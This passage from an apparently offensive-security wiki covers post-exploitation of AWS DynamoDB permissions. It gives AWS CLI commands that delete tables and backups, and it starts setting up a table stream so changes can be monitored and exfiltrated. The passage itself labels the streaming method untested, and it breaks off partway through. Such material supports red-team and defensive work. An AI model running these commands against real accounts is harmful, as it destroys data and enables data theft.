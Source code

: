 {{#endtab }}
{{#endtabs }}

**Potential Impact:** Exploitation of further vulnerabilities/bypasses by being able to add/modify data in a DynamoDB table

### `dynamodb:DeleteTable`

An attacker with this permission can **delete a DynamoDB table, causing data loss**.

```bash
aws dynamodb delete-table \
    --table-name TargetTable \
    --region <region>
```

**Potential impact**: Data loss and disruption of services relying on the deleted table.

### `dynamodb:DeleteBackup`

An attacker with this permission can **delete a DynamoDB backup, potentially causing data loss in case of a disaster recovery scenario**.

```bash
aws dynamodb delete-backup \
    --backup-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable/backup/BACKUP_ID \
    --region <region>
```

**Potential impact**: Data loss and inability to recover from a backup during a disaster recovery scenario.

### `dynamodb:StreamSpecification`, `dynamodb:UpdateTable`, `dynamodb:DescribeStream`, `dynamodb:GetShardIterator`, `dynamodb:GetRecords`

> [!NOTE]
> TODO: Test if this actually works

An attacker with these permissions can **enable a stream on a DynamoDB table, update the table to begin streaming changes, and then access the stream to monitor changes to the table in real-time**. This allows the attacker to monitor and exfiltrate data changes, potentially leading to data leakage.

1. Enable a stream on a DynamoDB table:

```bash
aws dynamodb update-table \
    --table-name TargetTable \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
    --region <region>
```

2. Describe the stream to obtain the ARN and other details:

```bash
aws dynamodb describe-stream \
    --table-name TargetTable \
    --region <region>
```
